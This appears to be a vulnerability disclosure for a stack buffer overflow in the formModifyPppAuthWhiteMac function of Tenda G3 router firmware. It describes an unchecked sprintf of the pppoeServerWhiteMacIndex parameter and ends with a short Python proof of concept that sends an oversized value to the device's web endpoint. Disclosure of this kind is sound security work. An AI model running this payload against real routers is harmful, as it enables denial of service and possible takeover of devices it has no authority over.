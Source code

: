 # Tenda G3 formModifyPppAuthWhiteMac
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formModifyPppAuthWhiteMac function.
### Vulnerability details
Stack-based buffer overflow in function formModifyPppAuthWhiteMac on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formModifyPppAuthWhiteMac line 25, it reads in a user-provided parameter, and the variable pppoeServerWhiteMacIndex is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formModifyPppAuthWhiteMac-1.png)
![](images/formModifyPppAuthWhiteMac-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/PppAuthWhiteMacModify'
payload = {
    "pppoeServerWhiteMacIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
